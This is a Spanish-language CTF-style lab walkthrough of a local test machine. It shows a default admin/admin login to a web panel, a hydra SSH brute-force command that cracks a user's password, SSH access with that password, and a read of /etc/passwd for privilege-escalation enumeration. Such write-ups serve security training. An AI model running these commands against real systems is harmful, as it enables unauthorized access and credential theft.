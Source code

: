direccion **URL** del servicio:
```bash
http://172.17.0.2:9090/login.jsp?url=%2Findex.jsp
```

Ahora tenemos un panel de autentificacion, Pero probando credenciales por defecto ganamos acceso:
```bash
username: admin
password: admin
```

No se tuvo que realizar ataques de fuerza bruta, Ya que el servicio usa credenciales por defecto:
Ahora estamos en el panel administrativo:
```bash
http://172.17.0.2:9090/index.jsp
```

En el apartado de **Usarios** tenemos los siguientes:
```bash
http://172.17.0.2:9090/user-summary.jsp

5laahb
admin
chocolatitochingon
```
---
## Explotacion de Vulnerabilidades
### Vector de Ataque
De mientras que tenemos un nombre de usuario realizaremos un ataque de fuerza bruta sobre el servicio **ssh** que esta expluesto en lo que seguimos con la enumeracion:
```bash
hydra -l chocolatitochingon -P /usr/share/wordlists/rockyou.txt -f -t 4 ssh://172.17.0.2
```
Tambien en caso de que no puedamos encontrar credenciales podemos subir un plugin malicioso
Con **hydra** tuvimos exito encontramos credenciales validas para un usuario del sistema para **ssh**
```bash
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: chocolatitochingon   password: chocolate
```
### Intrusion
En esta caso la intrusion sera realizado por **ssh** ya que logramos ver usuarios desde el panel administrativo
```bash
# Reverse shell o acceso inicial
ssh-keygen -R 172.17.0.2 && ssh chocolatitochingon@172.17.0.2 # ( chocolate )
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
Enumerando los usuarios del sistema:
```bash
# Comandos clave ejecutados
cat /etc/passwd | grep "sh"

root:x:0:0:root:/root:/bin/bash
chocolatitochingon:x:1000:1000:chocolatitochingon,,,:/home/chocolatitochingon:/bin/bash
pinguinacio:x:1001:1001::/home/pinguinacio:/bin/bash
```
